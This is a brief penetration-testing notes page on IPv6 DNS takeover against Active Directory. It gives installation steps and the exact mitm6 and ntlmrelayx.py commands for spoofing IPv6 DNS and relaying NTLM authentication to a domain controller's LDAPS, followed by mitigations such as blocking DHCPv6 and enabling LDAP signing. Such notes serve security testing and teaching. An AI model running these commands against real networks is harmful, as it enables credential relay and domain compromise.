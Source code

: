 ```yaml
---
title: "IPv6 Attacks"
description: "IPv6 attacks using mitm6."
lead: "Using mitm6.py and ntlmrelayx.py to attack Active Directory."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "mitm_relay"
weight: 30
toc: true
---
```


## Overview

- If both IPv4 and IPv6 are enabled and v4 is the main protocol, DNS for v6 is not configured
- Attacker can impersonate IPv6 DNS server
- Capture authentication requests to DC via LDAP or SMB
- LDAP relay via NTLM

## Exploitation

### Set Up mitm6

```bash
git clone https://github.com/fox-it/mitm6 /opt/mitm6
cd /opt/mitm6
pip3 install -r requirements.txt
python3 setup.py install
```

### IPv6 DNS Takeover via mitm6

```bash
# Run mitm6
mitm6 -d domain.local

# Set up relay against DC
ntlmrelayx.py -6 -t ldaps://192.168.31.10 -wh fakepad.marvel.local -l lootme
```

## Mitigation

- Block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy
- Disable WPAD if it's not used via Group Policy
- Enable LDAP signing and LDAP channel binding
- Add Administrative users to the `Protected Users` group or marking them as sensitive and cannot be delegated to prevent impersonation of that user via delegation
